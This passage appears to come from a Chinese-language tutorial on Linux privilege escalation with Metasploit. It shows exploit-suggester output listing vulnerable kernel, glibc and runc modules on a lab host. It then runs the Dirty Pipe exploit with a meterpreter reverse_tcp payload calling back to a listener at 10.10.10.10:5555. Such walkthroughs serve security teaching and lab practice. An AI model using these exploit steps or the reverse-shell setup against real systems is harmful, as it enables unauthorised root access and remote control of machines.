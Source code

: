 ```
[+] 10.10.10.102 - exploit/linux/local/su_login: The target appears to be vulnerable.
[+] 10.10.10.102 - exploit/linux/local/sudoedit_bypass_priv_esc: The target appears to be vulnerable. Sudo 1.9.5p2.pre.3 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
[*] Running check method for exploit 73 / 73
[*] 10.10.10.102 - Valid modules for session 1:
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2022_0847_dirtypipe                         Yes                      The target appears to be vulnerable. Linux kernel version found: 5.10.0
 2   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/glibc_tunables_priv_esc                         Yes                      The target appears to be vulnerable. The glibc version (2.31-13+deb11u2) found on the target appears to be vulnerable
 4   exploit/linux/local/netfilter_nft_set_elem_init_privesc             Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/runc_cwd_priv_esc                               Yes                      The target appears to be vulnerable. Version of runc detected appears to be vulnerable: 1.0.0~rc93+ds1-5+b2.
 6   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 7   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.9.5p2.pre.3 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
 8   exploit/linux/local/abrt_raceabrt_priv_esc                          No                       The target is not exploitable.

```



方式二：使用模块并绑定会话

```
msf6 > use post/multi/recon/local_exploit_suggester 
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1 # 设置会话 ID
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run # 检测漏洞
...
```



**利用漏洞进行提权**

```
msf6 > use exploit/linux/local/cve_2022_0847_dirtypipe 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set LHOST 10.10.10.10
LHOST => 10.10.10.10
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set LPORT 5555
LPORT => 5555
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > run 
[*] Started reverse TCP handler on 10.10.10.10:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Linux kernel version found: 5.10.0
[*] Executing exploit '/tmp/.ubhkqc /bin/passwd'
[*] Sending stage (3045380 bytes) to 10.10.10.102
```